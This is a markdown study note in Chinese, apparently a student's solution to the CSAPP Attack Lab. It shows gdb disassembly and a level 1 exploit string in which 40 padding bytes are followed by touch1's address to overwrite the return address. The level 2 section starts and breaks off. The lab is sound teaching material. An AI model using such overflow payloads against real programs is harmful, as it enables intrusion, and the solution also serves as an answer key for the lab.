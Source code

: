 # Attack Lab

[CSAPP:Attack lab - 简书 (jianshu.com)](https://www.jianshu.com/p/db731ca57342)

## 代码注入攻击

### level 1

反汇编test和getbuf函数，看到getbuf的栈空间大小为0x28，即40字节。

- test

![image-20211126104027322](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111261040430.png)

- getbuf

![image-20211126104154718](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111261041743.png)

- touch1

```assembly
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:		sub    $0x8,%rsp
   0x00000000004017c4 <+4>:		movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
End of assembler dump.
```

查看touch1的地址，用touch1的地址覆盖原来的返回地址

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

将每个字节的十六进制表示通过hex2raw转换为字符串，并将得到的字符串作为ctarget的输入。

![image-20211127184819454](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111271848491.png)



### level 2

插入一段代码作为攻击字符串（exploit string）的一部分。

设置断点，查看栈顶地址。
